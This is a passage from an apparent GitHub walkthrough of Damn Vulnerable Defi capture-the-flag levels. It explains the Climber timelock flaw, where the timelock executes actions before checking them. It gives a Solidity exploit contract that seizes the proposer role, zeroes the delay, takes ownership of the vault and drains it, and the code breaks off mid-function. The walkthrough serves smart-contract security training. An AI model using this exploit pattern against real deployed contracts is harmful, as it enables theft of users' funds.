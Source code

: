 ```solidity
```

Run `forge test --mp test/backdoor/Backdoor.t.sol --isolate` to validate test

---

## 12.CLIMBER

**Objective**

_from `_isSolved()` in test_

1. _All tokens of the vault were deposited into the recovery account_

**Attack Analysis**

- The vulnerability resides in the `ClimberTimelock.execute()` function, which has an incorrect order of operations. It executes the actions before performing the necessary checks, instead of checking first and then executing (i.e. using the Check-Effect-Iteration pattern). This allows an attacker to bypass the checks and directly modify the contract's state.
- For an attacker to exploit this vulnerability, they have to follow the below steps:
  1. Call grantRole to acquire the `PROPOSER_ROLE`.
  2. Update `ClimberTimelock.delay` to 0.
  3. Transfer ownership of `ClimberVault`to the attacker.
  4. Call `ClimberTimelock.schedule()` to schedule the malicious operation.
  5. Upgrade the contract with a new vulnerable instance.
  6. Withdraw the funds using the new instance.
- The exploit leverages the fact that the intended payload can be placed in the first few items of the array, and the last item can simply execute `ClimberTimelock.schedule()` to update the state, bypassing the checks in `ClimberTimelockBase.getOperationState()`.

**POC**

See [test/climber/Climber.t.sol](https://github.com/CanonicalJP/damn-vulnerable-defi-v4-walkthrough/blob/master/test/climber/Climber.t.sol)

```solidity
function test_climber() public checkSolvedByPlayer {
    Attack attackVault = new Attack(payable(timelock), address(vault));
    attackVault.exploit();
    VulnClimberVault newVaultImpl = new VulnClimberVault();
    vault.upgradeToAndCall(address(newVaultImpl), "");
    VulnClimberVault(address(vault)).withdrawAll(address(token), recovery);
}

contract Attack {
    address payable private immutable timelock;

    uint256[] private _values = [0, 0, 0, 0];
    address[] private _targets = new address[](4);
    bytes[] private _elements = new bytes[](4);

    constructor(address payable _timelock, address _vault) {
        timelock = _timelock;
        _targets = [_timelock, _timelock, _vault, address(this)];

        _elements[0] = (
            abi.encodeWithSignature("grantRole(bytes32,address)", keccak256("PROPOSER_ROLE"), address(this))
        );
        _elements[1] = abi.encodeWithSignature("updateDelay(uint64)", 0);
        _elements[2] = abi.encodeWithSignature("transferOwnership(address)", msg.sender);
        _elements[3] = abi.encodeWithSignature("schedule()");
    }

    function exploit() external {
        ClimberTimelock(timelock).execute(_targets, _values, _elements, bytes32("123"));
```